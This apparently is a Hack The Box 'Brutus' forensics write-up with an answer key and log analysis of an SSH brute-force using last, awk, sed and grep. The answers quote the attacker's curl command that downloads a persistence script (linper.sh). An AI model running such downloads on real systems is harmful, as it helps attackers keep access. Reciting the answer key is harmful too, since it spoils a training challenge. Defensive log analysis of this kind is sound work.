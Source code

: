 # [Brutus](https://app.hackthebox.com/sherlocks/Brutus) 

---

??? info "Answers"

    ??? note "Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?"
        65.2.161.68

    ??? note "The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?"
        root

    ??? note "Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact."
        2024-03-06 06:32:45

    ??? note "SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?"
        37

    ??? note "The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?"
        cyberjunkie

    ??? note "What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?"
        T1136.001

    ??? note "What time did the attacker's first SSH session end according to auth.log?"
        2024-03-06 06:37:24

    ??? note "The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?"
        /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
    
---

the zip files gives you 3 files, and auth.log, wtmp, and a python script for parsing the wtmp file.

So lets check these files. 

the "last" command prints previous logins that are logged in your /var/log/wtmp to the terminal but we can also specify a file with the -f flag.

the wtmp file records logins, logouts, reboots, and system runelvel changes.

It is important to note that my system time is in UTC format.


```
       Λ   ~/hackthebox/brutus   last -f ./wtmp
    cyberju* pts/1        65.2.161.68      Wed Mar  6 06:37    gone - no logout
    root     pts/1        65.2.161.68      Wed Mar  6 06:32 - 06:37  (00:04)
    root     pts/0        203.101.190.9    Wed Mar  6 06:19    gone - no logout
    reboot   system boot  6.2.0-1018-aws   Wed Mar  6 06:17   still running
    root     pts/1        203.101.190.9    Sun Feb 11 10:54 - 11:08  (00:13)
    root     pts/1        203.101.190.9    Sun Feb 11 10:41 - 10:41  (00:00)
    root     pts/0        203.101.190.9    Sun Feb 11 10:33 - 11:08  (00:34)
    root     pts/0        203.101.190.9    Thu Jan 25 11:15 - 12:34  (01:18)
    ubuntu   pts/0        203.101.190.9    Thu Jan 25 11:13 - 11:15  (00:01)
    reboot   system boot  6.2.0-1017-aws   Thu Jan 25 11:12 - 11:09 (16+23:57)

    wtmp begins Thu Jan 25 11:12:17 2024
```
So, without even reading the auth.log yet we can kind of guess that the answer to this one is going to be 65.2.161.68 because it's the only login from a different IP address, but that's not **evidence** of an attacker.

Typing ```less -S auth.log``` into the terminal will let us read the entire log, the -S flag make the text go off the screen instead of wrapping onto the next line.

That's nice for skimming through, but log files can get quite large so it would be easier if we could search through them for what we want.  That is where grep and awk come in.

```head``` is a command that shows you a specified number of lines from the top of a file.  for example ```head -5 auth.log``` will give me the first 5 lines of the auth.log.  Using ```head -1 auth.log``` I can print the first line of the file to get a peek at the syntax so I can awk it.

```
   Λ   ~/hackthebox/brutus   head -1 auth.log
Mar  6 06:18:01 ip-172-31-35-28 CRON[1119]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
   Λ   ~/hackthebox/brutus   awk '{print $5}' auth.log | sed 's/[\[\:].*//g' | sort | uniq -c
      1 chfn
    104 CRON
      3 groupadd
      1 passwd
    257 sshd
      6 sudo
      2 systemd
      8 systemd-logind
      1 useradd
      2 usermod
   Λ   ~/hackthebox/brutus

```

Typing ```less -S auth.log``` into the terminal will let us read the entire log, the -S flag make the text go off the screen instead of wrapping onto the next line.

That's nice for skimming through, but log files can get quite large so it would be easier if we could search through them for what we want.  That is where grep and awk come in.

```head``` is a command that shows you a specified number of lines from the top of a file.  for example ```head -5 auth.log``` will give me the first 5 lines of the auth.log.  Using ```head -1 auth.log``` I can print the first line of the file to get a peek at the syntax so I can awk it.

    ```
       Λ   ~/hackthebox/brutus   head -1 auth.log
    Mar  6 06:18:01 ip-172-31-35-28 CRON[1119]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
       Λ   ~/hackthebox/brutus   awk '{print $5}' auth.log | sed 's/[\[\:].*//g' | sort | uniq -c
          1 chfn
        104 CRON
          3 groupadd
          1 passwd
        257 sshd
          6 sudo
          2 systemd
          8 systemd-logind
          1 useradd
          2 usermod
       Λ   ~/hackthebox/brutus

    ```
---    

```
head -1 auth.log
Mar  6 06:18:01 ip-172-31-35-28 CRON[1119]: pam_unix(cron:session): session opened for user confluence(uid=998) by (uid=0)
```



??? example "```awk '{print $5}' auth.log | sed 's/[\[\:].*//g' | sort | uniq -c```"

     **`awk '{print $5}' auth.log`**

        * Splits each line by the spaces.
        * Prints the fifth field of this split.
        * For example, here are the fields on the first line:

            * `$1` = `Mar`
            * `$2` = `6`
            * `$3` = `06:18:01`
            * `$4` = `ip-172-31-35-28`
            * `$5` = `CRON[1119]:`

       So the output is things like `sshd[1234]:`, `CRON[1119]:`, `sudo:`, etc.

     **`sed 's/[\[\:].*//g'`**

           * A regex replace: “if you see a `[` or `:` and anything after it, delete it.”
           * That turns `CRON[1119]:` into `CRON`, `sshd[1234]:` into `sshd`, `sudo:` into `sudo`
           * Essentially, it strips PIDs and trailing colons, leaving just the program name.

     **`sort`**

        * Sorts the cleaned list alphabetically.
        * All the `CRON`s together, all the `sshd`s together, etc.

     **`uniq -c`**

        * Collapses consecutive identical lines (hence the need for `sort`).
        * Counts how many times each unique program name appeared.
        * The `-c` flag prefixes each with its count.

---

So now we can see some of the actions that are taking place in this log file; most relevant to us here being that there were 257 SSH attempts.  

Let's grep the log for SSH.
```grep sshd auth.log``` I can see many failed password SSH attempts from the IP address 65.2.161.68.  Evidence of a brute force *attempt* from that IP address, but let's dig a little further.  
If I pipe the output of that into grep again, I can begin to filter the log file down.

For example, with the -v use flag, I can have grep do the opposite of it's usual function, and instead omit entries from it's output.

```
   Λ   ~/hackthebox/brutus   grep sshd auth.log | grep -v pam_unix | grep -v Failed | grep -v preauth | grep -v Invalid
Mar  6 06:19:52 ip-172-31-35-28 sshd[1465]: AuthorizedKeysCommand /usr/share/ec2-instance-connect/eic_run_authorized_keys root SHA256:4vycLsDMzI+hyb9OP3wd18zIpyTqJmRq/QIZaLNrg8A failed, status 22
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: error: beginning MaxStartups throttling
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: drop connection #10 from [65.2.161.68]:46482 on [172.31.35.28]:22 past MaxStartups
Mar  6 06:31:36 ip-172-31-35-28 sshd[2357]: PAM 1 more authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68  user=backup
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Received disconnect from 65.2.161.68 port 34782:11: Bye Bye
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Disconnected from user root 65.2.161.68 port 34782
Mar  6 06:31:41 ip-172-31-35-28 sshd[2399]: PAM 1 more authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68  user=root
Mar  6 06:31:41 ip-172-31-35-28 sshd[2407]: PAM 1 more authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68  user=root
Mar  6 06:31:42 ip-172-31-35-28 sshd[2409]: PAM 1 more authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68  user=root
Mar  6 06:32:39 ip-172-31-35-28 sshd[620]: exited MaxStartups throttling after 00:01:08, 21 connections dropped
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar  6 06:37:34 ip-172-31-35-28 sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
   Λ   ~/hackthebox/brutus

```

Now we get a clearer picture of what has happened.  Combined with our knowledge that there have been 257 SSH attempts, and before adding ```grep -v Failed | grep -v preauth | grep -v Invalid``` you could see that each of those 257 are all from **65.2.161.68**.
